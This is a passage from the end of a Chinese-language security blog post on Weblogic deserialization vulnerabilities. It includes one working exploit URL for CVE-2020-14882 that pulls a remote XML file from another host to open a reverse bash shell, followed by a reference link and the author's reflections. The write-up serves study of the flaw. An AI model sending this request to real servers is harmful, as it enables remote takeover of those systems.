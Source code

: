 访问下面url即可进行shell反弹  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://172.24.0.1:8080/cve-2020-14882-reverse-bash.xml")`

参考：[https://cert.360.cn/report/detail?id=a95c049c576af8d0e56ae14fad6813f4](https://cert.360.cn/report/detail?id=a95c049c576af8d0e56ae14fad6813f4)

....暂时写到这吧

## 4\. 总结

对于反序列化漏洞而言，原理都是相通的，从老洞开始研究不仅能够掌握更多基础原理，还能够体会防御和绕过的趣味。每次回过头来分析一编，总能有不一样的体会与理解。作为初学者，时间有限...近两年出来的洞只看了大概，还没来的及详细分析。关于Weblogic远不止这些，希望能够探测更多关于Weblogic底层的东西。

打赏
